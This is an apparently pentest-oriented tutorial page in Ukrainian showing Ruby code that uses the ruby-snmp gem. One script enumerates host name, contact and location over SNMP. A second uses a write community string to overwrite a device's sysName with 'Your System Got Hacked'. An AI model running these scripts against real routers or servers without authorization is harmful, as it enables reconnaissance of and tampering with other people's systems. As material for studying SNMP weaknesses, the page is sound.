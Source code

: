 # Отримання даних SNMP
- Встановіть [ruby-snmp][1]
```
gem install snmp
```

## Get Запит
Невірно налаштований SNMP сервіс може дати нападаючим дуже багато інформації. Давайте подивимося як отримати деяку інформацію з сервера.

```ruby
# KING SABRI | @KINGSABRI
require 'snmp'

# Підключення до SNMP серверу
manager = SNMP::Manager.new(:host => '192.168.0.17')

# Базова інформація
puts "SNMP Version: " + manager.config[:version]
puts "Community: " + manager.config[:community]
puts "Write Community: " + manager.config[:WriteCommunity]


# Отримуємо ім'я хосту, контактну інформацію, мвсце знаходження
hostname = manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}       # manager.get("sysName.0").varbind_list[0]
contact  = manager.get("sysContact.0").each_varbind.map {|vb| vb.value.to_s}    # manager.get("sysContact.0").varbind_list[0]
location = manager.get("sysLocation.0").each_varbind.map {|vb| vb.value.to_s}   # manager.get("sysLocation.0").varbind_list[0]

# Це надасть списоа OIDs
response = manager.get(["sysName.0", "sysContact.0", "sysLocation.0"])
response.each_varbind do |vb|
    puts vb.value.to_s
end

```

> Зверніть увагу: OID імена чутливі до регістру.


## Set Запит
Іноді може пощастити отримати строку управління SNMP і в цей момент ми можемо іже робити й приміняти зміни но всій системі, раутері, свічах, та інше.

```ruby
require 'snmp'
include SNMP

# Підключання до SNMP серверу
manager = SNMP::Manager.new(:host => '192.168.0.17')
# Налаштужмо наш запит в OID
varbind = VarBind.new("1.3.6.1.2.1.1.5.0", OctetString.new("Your System Got Hacked"))
# надсилаємо наші настройки до серверу
manager.set(varbind)
# Перевіряємо чи були застосованими зміни. 
manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}
manager.close
```



<br><br><br>
---
[1]: https://github.com/hallidave/ruby-snmp/